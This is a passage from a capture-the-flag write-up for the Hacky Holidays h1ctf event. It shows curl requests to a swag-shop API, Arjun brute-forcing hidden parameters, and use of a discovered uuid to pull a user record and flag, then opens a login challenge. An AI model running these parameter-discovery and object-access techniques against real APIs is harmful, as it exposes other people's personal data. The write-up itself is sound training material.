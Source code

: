 What about the `/api/user` endpoint?

```bash
> curl 'https://hackyholidays.h1ctf.com/swag-shop/api/user' | jq
{
  "error": "Missing required fields"
}
```

That's something. To find hidden parameters, I am using [Arjun](https://github.com/s0md3v/Arjun) because it's speedy and has excellent visual effects.

```bash
> cd ~/tools/Arjun
> python3 arjun.py -u 'https://hackyholidays.h1ctf.com/swag-shop/api/user'
    _
   /_| _
  (  |/ /(//) v2.0-beta
      _/

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] name: uuid, factor: http code
```

It found the parameter `uuid`. I've seen a UUID before in the sessions. I tried it!

```bash
> curl 'https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043' | jq
{
  "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username": "grinch",
  "address": {
    "line_1": "The Grinch",
    "line_2": "The Cave",
    "line_3": "Mount Crumpit",
    "line_4": "Whoville"
  },
  "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

{F1139753}

I successfully doxed the big nasty green fluffy monster. He won't know what's coming! And I still want my hoodie.

# Challenge V - Secure Login 🐏

{F1139760}

I need to get inside the secret area. The application has a login page with username and password, and nothing more.

